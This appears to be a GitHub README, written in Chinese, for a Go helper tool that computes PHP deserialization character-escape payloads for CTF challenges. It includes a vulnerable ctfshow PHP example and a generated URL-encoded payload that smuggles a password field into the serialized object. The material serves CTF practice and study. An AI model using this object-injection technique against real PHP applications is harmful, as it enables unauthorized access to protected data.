

# php_unserialize_character_escape


写着玩的半成品，目标是辅助计算php反序列化字符逃逸题目的小小tool，目前仅支持字符增多的情况，后面有空再研究研究后续咋写，有用的话求个star

php反序列化字符逃逸介绍 https://xz.aliyun.com/t/9213

## Usage

```
> go run main.go --help
Usage of main.exe:
  -dst string
        替换后的字符串
  -input string
        base64编码的目标序列化流
  -src string
        被替换的字符串
```
## Demo

### 例题：ctfshow-web1_此夜圆 （字符增多）

```php
<?php
error_reporting(0);

class a
{
	public $uname;
	public $password;
	public function __construct($uname,$password)
	{
		$this->uname=$uname;
		$this->password=$password;
	}
	public function __wakeup()
	{
			if($this->password==='yu22x')
			{
				include('flag.php');
				echo $flag;	
			}
			else
			{
				echo 'wrong password';
			}
		}
	}

function filter($string){
    return str_replace('Firebasky','Firebaskyup',$string);
}

$uname=$_GET[1];
$password=1;
$ser=filter(serialize(new a($uname,$password)));
$test=unserialize($ser);
?>
```

这里简单构造一个序列化流

```php
<?php
error_reporting(0);

class a
{
	public $uname;
	public $password;
	public function __construct($uname,$password)
	{
		$this->uname=$uname;
		$this->password=$password;
	}
	public function __wakeup()
	{
			if($this->password==='yu22x')
			{
				echo "flag_success";
			}
			else
			{
				echo 'wrong password';
			}
		}
	}

function filter($string){
    return str_replace('Firebasky','Firebaskyup',$string);
}

$uname='$$$';
echo base64_encode(serialize(new a($uname,"yu22x")));
?>

```

给可控点写上`$$$`，然后将序列化流base64编码，连着字符替换的原字符和替换后字符传入命令行参数


```
> go run main.go --input TzoxOiJhIjoyOntzOjU6InVuYW1lIjtzOjM6IiQkJCI7czo4OiJwYXNzd29yZCI7czo1OiJ5dTIyeCI7fQ== --src Firebasky --dst Firebaskyup
2024/12/06 20:45:06 INFO [+] 目标序列化流： O:1:"a":2:{s:5:"uname";s:3:"$$$";s:8:"password";s:5:"yu22x";}
2024/12/06 20:45:06 INFO [+] 字符增多的情况
2024/12/06 20:45:06 INFO [+] 替换的字符长度差值为： 2
2024/12/06 20:45:06 INFO [+] 需要 15 组 Firebasky, 差 0 补齐
2024/12/06 20:45:06 INFO [+] 可控点需要传入的： FirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebasky%22%3Bs%3A8%3A%22password%22%3Bs%3A5%3A%22yu22x%22%3B%7D
```

然后将输出复制到可控点传入



即可成功辅助构造